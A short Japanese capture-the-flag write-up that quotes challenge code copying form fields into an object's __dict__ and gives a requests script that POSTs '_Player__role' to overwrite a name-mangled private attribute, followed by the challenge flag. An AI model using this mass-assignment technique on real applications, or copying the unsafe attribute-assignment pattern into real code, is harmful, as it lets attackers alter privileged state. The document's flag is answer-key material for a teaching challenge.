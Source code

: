 # writeup

配布されたpythonのコードを読み込む

```
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード</summary>
コード全文
```
import requests
def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
if __name__ == '__main__':
    request()
```
</details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>